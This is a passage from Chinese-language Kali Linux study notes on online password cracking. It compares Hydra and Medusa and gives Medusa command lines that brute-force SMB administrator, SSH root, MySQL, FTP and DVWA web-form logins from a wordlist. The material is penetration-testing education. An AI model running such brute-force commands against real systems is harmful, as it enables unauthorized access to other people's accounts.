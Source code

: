 ##### 影响因素
+ 密码复杂度(字典命中率)
+ 带宽、协议、服务器性能、客户端性能
+ 锁定阈值
+ 单位时间最大登陆请求次数

#### Hydra 的缺点
- 稳定性差，程序时常崩溃
- 速度控制不好，容易触发服务屏蔽或锁死机制 - 每主机新建进程，每服务新建实例
- 大量目标破解时性能差

### medusa
> 她的头发都是蛇。根据诗人阿波罗多洛斯的《书库》所述，她是戈耳戈女妖之一，外观描述是缠着龙鳞的头，像野猪一般的獠牙，青铜的手爪，金色的翅膀。任何直望美杜莎双眼的人都会变成石像，蛇发女妖美杜莎后来被英雄修柏斯斩除。

![](/Keybird0/Kali-learning-notes/wiki/images/011/20180307-cc8f8e17.png)

#### Medusa 的特点
- 稳定性好
- 速度控制得当
- 基于线程
- 支持模块少于hydra(不支持RDP) - WEB-Form支持存在缺陷(只支持登录失败失败方式)

#### 使用

```
medusa # 直接输入显示帮助
-n:非默认端口
-s:使用SSL连接
-T:并发主机数
-q:Display module's usage information

显示支持协议
medusa -d

破解windows密码
medusa -M smbnt -h 1.1.1.1 -u administrator -P pass.lst -e ns -F

破解Linux SSH密码
medusa -M ssh -h 192.168.20.10 -u root -P pass.lst -e ns -F

其他服务密码破解
medusa -M mysql -h 1.1.1.1 -u root -P pass.lst -e ns -F

medusa -h 1.1.1.1 -u admin -P pass.lst -M web-form -m FORM:"dvwa/login.php" -m DENY-SIGNAL:"login.php" -m FORM- DATA:"post?user=username&pass=password&Login=Login"

medusa -M ftp -q
```


## 0x03 离线破解
> 主要用于hash的破解
